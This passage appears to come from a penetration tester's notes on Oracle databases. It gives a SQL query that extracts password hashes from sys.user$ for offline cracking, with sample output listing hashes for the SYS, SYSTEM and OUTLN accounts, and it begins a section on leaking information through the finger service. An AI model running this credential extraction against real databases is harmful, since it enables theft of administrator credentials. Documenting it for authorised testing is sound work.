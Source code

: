



### Extract Password Hashes

Retrieve the password hashes of the `sys.user$`
[SYS.USER$](https://docs.oracle.com/database/121/ADMQS/GUID-CF1CD853-AF15-41EC-BC80-61918C73FDB5.htm#ADMQS12003)
(the default administrative user account) and try to crack them offline

```sql
select name, password from sys.user$;
```


> [!example]-
>
> ```sql
> select name, password from sys.user$;
> ```
> ```sh
> NAME                           PASSWORD
> ------------------------------ ------------------------------
> SYS                            FBA343E7D6C8BC9D
> PUBLIC
> CONNECT
> RESOURCE
> DBA
> SYSTEM                         B5073FE1DE351687
> SELECT_CATALOG_ROLE
> EXECUTE_CATALOG_ROLE
> DELETE_CATALOG_ROLE
> OUTLN                          4A3BA55E08595C81
> EXP_FULL_DATABASE
> 
> NAME                           PASSWORD
> ------------------------------ ------------------------------
> IMP_FULL_DATABASE
> LOGSTDBY_ADMINISTRATOR
> ...SNIP...
> ```




___




## Finger

If the [finger service](https://en.wikipedia.org/wiki/Finger_(protocol))
is active on the same host as the [[General#TNS Listener|TNS listener]],
and the Oracle OS account (often just `oracle`) is known,
the **finger** output can leak:
